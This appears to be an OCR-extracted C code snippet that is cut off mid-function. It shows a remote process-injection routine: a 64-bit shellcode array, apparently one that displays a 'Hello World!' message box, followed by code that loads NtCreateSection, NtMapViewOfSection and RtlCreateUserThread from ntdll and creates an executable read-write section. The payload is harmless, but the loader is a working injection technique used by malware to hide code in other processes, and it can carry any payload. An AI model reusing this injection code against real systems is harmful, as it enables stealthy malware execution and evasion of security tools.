 ```C
	BYTE bMessageboxShellcode64[] = "\x48\x89\x5C\x24\x18\x48\x89\x7C\x24\x20\x55\x48\x8D\x6C\x24\xA9\x48\x81\xEC\xA0\x00\x00\x00\x33\xDB\xC7\x45\x17\x75\x00\x73\x00\xB9\x13\x9C\xBF\xBD\x48\x89\x5D\x67\x89\x5D\xFB\x89\x5D\x0B\x66\x89\x5D\x47\xC7\x45\x1B\x65\x00\x72\x00\xC7\x45\x1F\x33\x00\x32\x00\xC7\x45\x23\x2E\x00\x64\x00\xC7\x45\x27\x6C\x00\x6C\x00\xC7\x45\xD7\x4D\x65\x73\x73\xC7\x45\xDB\x61\x67\x65\x42\xC7\x45\xDF\x6F\x78\x57\x00\xC7\x45\x2F\x48\x00\x65\x00\xC7\x45\x33\x6C\x00\x6C\x00\xC7\x45\x37\x6F\x00\x20\x00\xC7\x45\x3B\x57\x00\x6F\x00\xC7\x45\x3F\x72\x00\x6C\x00\xC7\x45\x43\x64\x00\x21\x00\xC7\x45\xE7\x44\x00\x65\x00\xC7\x45\xEB\x6D\x00\x6F\x00\xC7\x45\xEF\x21\x00\x00\x00\xE8\x74\x00\x00\x00\xB9\xB5\x41\xD9\x5E\x48\x8B\xD8\xE8\x67\x00\x00\x00\x48\x8B\xF8\xC7\x45\xF7\x14\x00\x14\x00\x48\x8D\x45\x17\x33\xD2\x4C\x8D\x4D\x6F\x48\x89\x45\xFF\x4C\x8D\x45\xF7\x33\xC9\xFF\xD3\x48\x8B\x4D\x6F\x48\x8D\x45\xD7\x45\x33\xC0\x48\x89\x45\x0F\x4C\x8D\x4D\x67\xC7\x45\x07\x0C\x00\x0C\x00\x48\x8D\x55\x07\xFF\xD7\x45\x33\xC9\x4C\x8D\x45\xE7\x48\x8D\x55\x2F\x33\xC9\xFF\x55\x67\x4C\x8D\x9C\x24\xA0\x00\x00\x00\x49\x8B\x5B\x20\x49\x8B\x7B\x28\x49\x8B\xE3\x5D\xC3\xCC\xCC\x48\x8B\xC4\x48\x89\x58\x08\x48\x89\x68\x10\x48\x89\x70\x18\x48\x89\x78\x20\x41\x56\x48\x83\xEC\x10\x65\x48\x8B\x04\x25\x60\x00\x00\x00\x8B\xE9\x45\x33\xF6\x48\x8B\x50\x18\x4C\x8B\x4A\x10\x4D\x8B\x41\x30\x4D\x85\xC0\x0F\x84\xB3\x00\x00\x00\x41\x0F\x10\x41\x58\x49\x63\x40\x3C\x41\x8B\xD6\x4D\x8B\x09\xF3\x0F\x7F\x04\x24\x46\x8B\x9C\x00\x88\x00\x00\x00\x45\x85\xDB\x74\xD2\x48\x8B\x04\x24\x48\xC1\xE8\x10\x66\x44\x3B\xF0\x73\x22\x48\x8B\x4C\x24\x08\x44\x0F\xB7\xD0\x0F\xBE\x01\xC1\xCA\x0D\x80\x39\x61\x7C\x03\x83\xC2\xE0\x03\xD0\x48\xFF\xC1\x49\x83\xEA\x01\x75\xE7\x4F\x8D\x14\x18\x45\x8B\xDE\x41\x8B\x7A\x20\x49\x03\xF8\x45\x39\x72\x18\x76\x8E\x8B\x37\x41\x8B\xDE\x49\x03\xF0\x48\x8D\x7F\x04\x0F\xBE\x0E\x48\xFF\xC6\xC1\xCB\x0D\x03\xD9\x84\xC9\x75\xF1\x8D\x04\x13\x3B\xC5\x74\x0E\x41\xFF\xC3\x45\x3B\x5A\x18\x72\xD5\xE9\x5E\xFF\xFF\xFF\x41\x8B\x42\x24\x43\x8D\x0C\x1B\x49\x03\xC0\x0F\xB7\x14\x01\x41\x8B\x4A\x1C\x49\x03\xC8\x8B\x04\x91\x49\x03\xC0\xEB\x02\x33\xC0\x48\x8B\x5C\x24\x20\x48\x8B\x6C\x24\x28\x48\x8B\x74\x24\x30\x48\x8B\x7C\x24\x38\x48\x83\xC4\x10\x41\x5E\xC3";
	SIZE_T dwReqBufSize = sizeof bMessageboxShellcode64;
	LONG lRetVal = STATUS_SUCCESS;
	DWORD dwPid;
	LARGE_INTEGER sectionSize = { dwReqBufSize };
	HANDLE hSection = NULL;
	HANDLE hProcess;
	HANDLE hThread = NULL;
	PVOID pLocalSectionAddress = NULL;
	PVOID pRemoteSectionAddress = NULL;

	// Function pointers
	NTCREATESECTION	pNtCreateSection;
	NTMAPVIEWOFSECTION pNtMapViewOfSection;
	RTLCREATEUSERTHREAD pRtlCreateUserThread;

	//
	// Load required functions from ntdll
	//
	CONST HMODULE hNtdll = LoadLibraryW(L"ntdll.dll");
	if (hNtdll) {
		pNtCreateSection = (NTCREATESECTION)GetProcAddress(hNtdll, "NtCreateSection");
		pNtMapViewOfSection = (NTMAPVIEWOFSECTION)GetProcAddress(hNtdll, "NtMapViewOfSection");
		pRtlCreateUserThread = (RTLCREATEUSERTHREAD)GetProcAddress(hNtdll, "RtlCreateUserThread");
		FreeLibrary(hNtdll);
	}
	else {
		return STATUS_OPEN_FAILED;
	}

	//
	// Create a section
	//
	ntStatus = pNtCreateSection(&hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, 
		(PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
	if (!NT_SUCCESS(ntStatus)) {
		return ntStatus;
	}

	//
```